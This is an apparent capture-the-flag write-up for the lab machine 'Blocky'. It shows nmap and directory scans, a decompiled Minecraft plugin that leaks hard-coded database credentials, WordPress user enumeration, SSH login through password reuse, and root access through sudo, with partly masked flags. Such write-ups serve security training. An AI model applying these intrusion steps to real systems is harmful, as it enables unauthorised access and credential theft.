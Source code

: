 # Writeup: Blocky

**OS**: 🐧 Linux

**Level**: 🟢 Easy

## 🔎 Enumeration:

Nmap scan:

```shell
nmap -sS -sVC -Pn -vv -T4 -p- -oN nmap_scan $TARGET
```

Result:

```
# Nmap 7.95 scan initiated Sat Sep 27 16:26:38 2025 as: /usr/lib/nmap/nmap -sS -sVC -Pn -vv -T4 -p- -oN nmap_scan 10.129.239.140
Nmap scan report for 10.129.239.140
Host is up, received user-set (0.15s latency).
Scanned at 2025-09-27 16:26:38 CEST for 472s
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE  SERVICE   REASON         VERSION
21/tcp    open   ftp?      syn-ack ttl 63
22/tcp    open   ssh       syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXqVh031OUgTdcXsDwffHKL6T9f1GfJ1/x/b/dywX42sDZ5m1Hz46bKmbnWa0YD3LSRkStJDtyNXptzmEp31Fs2DUndVKui3LCcyKXY6FSVWp9ZDBzlW3aY8qa+y339OS3gp3aq277zYDnnA62U7rIltYp91u5VPBKi3DITVaSgzA8mcpHRr30e3cEGaLCxty58U2/lyCnx3I0Lh5rEbipQ1G7Cr6NMgmGtW6LrlJRQiWA1OK2/tDZbLhwtkjB82pjI/0T2gpA/vlZJH0elbMXW40Et6bOs2oK/V2bVozpoRyoQuts8zcRmCViVs8B3p7T1Qh/Z+7Ki91vgicfy4fl
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNgEpgEZGGbtm5suOAio9ut2hOQYLN39Uhni8i4E/Wdir1gHxDCLMoNPQXDOnEUO1QQVbioUUMgFRAXYLhilNF8=
|   256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILqVrP5vDD4MdQ2v3ozqDPxG1XXZOp5VPpVsFUROL6Vj
80/tcp    open   http      syn-ack ttl 63 Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
8192/tcp  closed sophos    reset ttl 63
25565/tcp open   minecraft syn-ack ttl 63 Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep 27 16:34:30 2025 -- 1 IP address (1 host up) scanned in 472.32 seconds
```

On port 80 i found a webserver so i started a directory scan on my target. Since the server is running wordpress i had some issues with the directory bruteforce but in the end i found a `/plugins` directory, which contains two `.jar`files.

```
301      GET        9l       28w      310c http://blocky.htb/plugins => http://blocky.htb/plugins/
```

I downloaded both `.jar` files on my machine and since i never worked with java files before i have done some research how to decompile the files. I used `jd-gui` to decompile the `BlockyCore.jar` file in which i found some credentials inside the `BlockyCore.class`.

```java
package com.myfirstplugin;

public class BlockyCore {
  public String sqlHost = "localhost";
  
  public String sqlUser = "root";
  
  public String sqlPass = "8YsqfCTnvxAUe**********";
  
  public void onServerStart() {}
  
  public void onServerStop() {}
  
  public void onPlayerJoin() {
    sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
  }
  
  public void sendMessage(String username, String message) {}
}
```

I used `wp-scan` on my target to enumerate usernames and found the `notch` user.

```
[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection
```

## 💥 Exploitation:

I have used the credentials i found to log in via `ssh` to the target host, where i found the `user.txt` inside the home directory of `notch`.

```
ssh notch@blocky.htb

cat user.txt
```

## 🔓 Priviledge Escalation:

I checked for the usual things for privesc (cronjobs, SUID binaries, etc.) and was surprised that `notch` is inside the `sudo` group, which has given me `root` privs trough a simple `sudo -i`.

```
id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)

sudo -l
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL

sudo -i
cat root.txt
```

## 💰 Loot:

```shell
# user.txt
8b74773e3fa2a0175e1fab**********

# root.txt
755353e3109d92b59ae096**********
```